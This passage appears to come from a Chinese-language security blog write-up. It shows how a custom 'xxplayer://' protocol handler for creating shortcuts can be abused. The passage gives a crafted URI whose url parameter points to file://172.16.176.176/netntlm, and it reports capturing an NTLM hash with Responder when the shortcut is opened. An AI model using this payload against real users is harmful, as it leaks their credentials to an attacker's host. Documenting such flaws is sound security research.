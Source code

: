 [![](assets/1703487068-ebfd948e2a5b040f3f0c6edd44366374.jpg)](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028772674438.jpg)

当我们双击这个快捷方式时，就会调用浏览器打开`http://www.baidu.com`。

接着我们发现只要`url`参数值为`xxx://xxx.xxx/`的格式即可，那么我们尝试将`url`参数值修改为`file://172.16.176.176/netntlm`，也就变成这样：`xxplayer://action.cmd/createshortcut_url?url=file://172.16.176.176/netntlm&name=123`，在机器上`responder`监听一下，当打开快捷方式时收到了NTLM Hash：

[![](assets/1703487068-fa1401e7d57a04bf990d5f25d6a56d35.jpg)](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16756130536051.jpg)
